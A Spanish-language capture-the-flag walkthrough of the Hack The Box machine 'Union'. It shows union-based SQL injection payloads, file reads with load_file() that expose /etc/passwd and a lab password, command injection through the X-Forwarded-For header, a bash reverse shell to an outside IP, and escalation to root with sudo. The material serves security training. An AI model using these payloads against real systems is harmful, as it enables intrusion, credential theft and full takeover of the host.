# Union



Whatweb
http://10.129.96.75 [200 OK] Bootstrap[4.1.1], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.96.75], JQuery[3.2.1], Script, nginx[1.18.0]

- 80
Vemos lo que parece un



- Corre PHP

- De primeras se me ocurre probar un xss ya que lo que le pasamos como nombre de "player" lo muestra en la etiqueta de texto de abajo



Vemos que acontece el XSS
Veremos que podemos hacer con el XSS después de seguir investigando

- Al introducir un nombre de jugador, te redirecciona a una pág */challenge.php* que pide una flag que aún no conocemos



- Fuzzeamos el servidor
```bash
gobuster dir -u http://10.129.96.75 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,js,txt
```



- /config.php -> No muestra nada a priori
- /firewall.php -> Access denied

- Vamos a probar más cosas
SQLi
```sql
' or 1=1-- -
```



- No muestra la parte de *"Complete de challenge **here**"* -> Parece que bypassea u omite parte de la información
```bash
' union select database();--
```



Vemos la base de datos **november**

- Lanzaremos las queries para exfiltrar información
```sql
' union select group_concat(schema_name) from information_schema.schemata-- -
```

mysql,information_schema,performance_schema,sys,november

```sql
' union select group_concat(table_name) from information_schema.tables where table_schema='november'-- -
```

flag,players

```sql
' union select group_concat(column_name) from information_schema.columns where table_schema='november' and table_name ='flag'-- -
```

- flag: one
- players: player

```sql
' union select group_concat(one) from november.flag-- -
```

UHC{F1rst_5tep_2_Qualify}

- Introducimos la flag para el usuario *qarlg* por ejemplo
Nos redirige a *firewall.php* y ahora si vemos contenido



- En principio la máquina no tiene puerto ssh abierto, escanearemos de nuevo a consciencia el puerto 22 en la máquina para ver si se ha levantado el servicio ssh para nuestra ip
```bash
sudo nmap -p22,80 --open -T5 -sCV --min-rate 5000 -n -Pn 10.129.96.75
```



Efectivamente vemos que ssh se ha levantado para nuestra IP aunque no disponemos de credenciales a priori

- Vamos a investigar la tabla *players* a ver si encontramos algún usuario válido
```sql
' union select group_concat(player) from november.players-- -
```

ippsec,celesian,big0us,luska,tinyboy

- Vamos a consultar las otras bases de datos
- mysql
```sql
' union select group_concat(table_name) from information_schema.tables where table_schema='mysql'-- -
```

columns_priv,component,db,default_roles,engine_cost,func,general_log,global_grants,gtid_executed,help_category,help_keyword,help_relation,help_topic,innodb_index_stats,innodb_table_stats,*password_history*,plugin,procs_priv,proxies_priv,replication_asynchronous_connection_failover,replication_asynchronous_connection_failover_managed,replication_group_configuration_version,replication_group_member_actions,role_edges,server_cost,servers,slave_master_info,slave_relay_log_info,slave_worker_info,slow_log,tables_priv,time_zone,time_zone_leap_second,time_zone_name,time_zone_transition,time_zone_transition_type,user

- Tabla password_history
```sql
' union select group_concat(column_name) from information_schema.columns where table_schema='mysql' and table_name ='password_history'-- -
```

Host,Password,Password_timestamp,User

```sql
' union select group_concat(Host,':',Password,':',User) from mysql.password_history-- -
```

Vacío

- Tabla user
```sql
' union select group_concat(column_name) from information_schema.columns where table_schema='mysql' and table_name ='user'-- -
```

account_locked,Alter_priv,Alter_routine_priv,authentication_string,Create_priv,Create_role_priv,Create_routine_priv,Create_tablespace_priv,Create_tmp_table_priv,Create_user_priv,Create_view_priv,Delete_priv,Drop_priv,Drop_role_priv,Event_priv,Execute_priv,File_priv,Grant_priv,Host,Index_priv,Insert_priv,Lock_tables_priv,max_connections,max_questions,max_updates,max_user_connections,**password_expired**,**password_last_changed**,password_lifetime,Password_require_current,**Password_reuse_history**,Password_reuse_time,plugin,Process_priv,References_priv,Reload_priv,Repl_client_priv,Repl_slave_priv,Select_priv,Show_db_priv,Show_view_priv,Shutdown_priv,ssl_cipher,ssl_type,Super_priv,Trigger_priv,Update_priv,User,User_attributes,x509_issuer,x509_subject

Lanzamos queries pero están vacías o sin información útil

- Vamos a intentar enumerar archivos con la función *load_file()*
```bash
' union select load_file('/etc/passwd')-- -
```



Conseguimos el LFR
Usuarios existentes en la máquina
**uhc**, **htb**

- Vamos a intentar enumerar algún archivo sensible
*/home/uhc/.ssh/id_rsa*
*/home/htb/.ssh/id_rsa*
*/var/www/html/config.php*



Vemos el archivo con unas credenciales
uhc:uhc-11qual-global-pw

- Vamos a intentar conectarnos por ssh
```bash
ssh uhc@10.129.96.75
```

uhc

## Escalada

- Encontramos que el usuario htb es propietario del servidor web y del archivo *firewall.php*, el cual ejecuta un comando con *sudo* si la cabecera X-Forwarded-For contiene valor





Podríamos intentar inyectar código en la IP, ya que la toma como parámetro directo del comando

- Usaremos burp y añadermos la cabecera para intentar inyectar código
```bash
X-Forwarded-For: 8.8.8.8; id;
```



La respuesta



## Rce

- Nos lanzaremos una shell
```bash
X-Forwarded-For: 8.8.8.8; bash -c 'bash -i >&/dev/tcp/10.10.16.179/443 0>&1';
```

www-data

```bash
sudo -l
```



```bash
sudo su
```

root
